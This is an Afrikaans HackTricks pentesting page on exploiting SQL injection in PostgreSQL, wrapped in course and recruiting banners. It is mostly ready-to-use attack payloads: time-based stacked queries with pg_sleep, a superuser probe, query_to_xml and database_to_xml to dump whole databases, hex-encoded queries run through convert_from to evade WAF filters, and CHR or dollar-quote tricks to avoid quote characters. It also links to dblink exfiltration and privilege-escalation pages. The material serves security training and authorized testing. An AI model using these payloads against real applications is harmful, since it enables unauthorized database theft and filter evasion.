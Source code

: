 # PostgreSQL-inspuiting

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackbare hack - **ons is op soek na mense!** (_vloeiende Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Hierdie bladsy het ten doel om verskillende truuks te verduidelik wat jou kan help om 'n SQL-inspuiting in 'n postgresql databasis te benut en om die truuks aan te vul wat jy kan vind op** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Netwerk Interaksie - Privilege Escalation, Port Scanner, NTLM uitdaging antwoord openbaar & Exfiltrasie

Die **PostgreSQL module `dblink`** bied vermoëns om met ander PostgreSQL instansies te verbind en TCP verbindings uit te voer. Hierdie funksies, gekombineer met die `COPY FROM` funksionaliteit, stel aksies soos privilege escalatie, port scanning, en NTLM uitdaging antwoord vang in staat. Vir gedetailleerde metodes om hierdie aanvalle uit te voer, kyk hoe om [hierdie aanvalle uit te voer](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Exfiltrasie voorbeeld met dblink en groot voorwerpe**

Jy kan [**hierdie voorbeeld lees**](dblink-lo\_import-data-exfiltration.md) om 'n CTF voorbeeld te sien van **hoe om data binne groot voorwerpe te laai en dan die inhoud van groot voorwerpe binne die gebruikersnaam** van die funksie `dblink_connect` te exfiltreer.

## PostgreSQL Aanvalle: Lees/skryf, RCE, privesc

Kyk hoe om die gasheer te kompromitteer en voorregte van PostgreSQL te verhoog in:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF omseiling

### PostgreSQL String funksies

Die manipulasie van strings kan jou help om **WAFs of ander beperkings te omseil**.\
[**Op hierdie bladsy** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**kan jy nuttige String funksies vind.**

### Gestapelde Vrae

Onthou dat postgresql gestapelde vrae ondersteun, maar verskeie toepassings sal 'n fout gooi as 2 antwoorde teruggestuur word wanneer net 1 verwag word. Maar, jy kan steeds die gestapelde vrae misbruik via Tyd inspuiting:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML truuks

**query\_to\_xml**

Hierdie funksie sal al die data in XML-formaat in net een lêer teruggee. Dit is ideaal as jy 'n groot hoeveelheid data in net 1 ry wil dump:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Hierdie funksie sal die hele databasis in XML-formaat in net 1 ry dump (wees versigtig as die databasis baie groot is, aangesien jy dit dalk DoS of selfs jou eie kliënt kan beïnvloed):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

As jy **navrae** kan uitvoer deur dit **binne 'n string** te stuur (byvoorbeeld deur die **`query_to_xml`** funksie te gebruik). **Jy kan die convert\_from gebruik om die string as hex te stuur en filters op hierdie manier te omseil:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Verbode aanhalings

As jy nie aanhalings vir jou payload kan gebruik nie, kan jy dit omseil met `CHR` vir basiese clausules (_karakterkonkatenasie werk slegs vir basiese vrae soos SELECT, INSERT, DELETE, ens. Dit werk nie vir alle SQL-verklarings_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Of met `$`. Hierdie vrae lewer dieselfde resultate:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackbare hack - **ons huur aan!** (_vloeiend Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
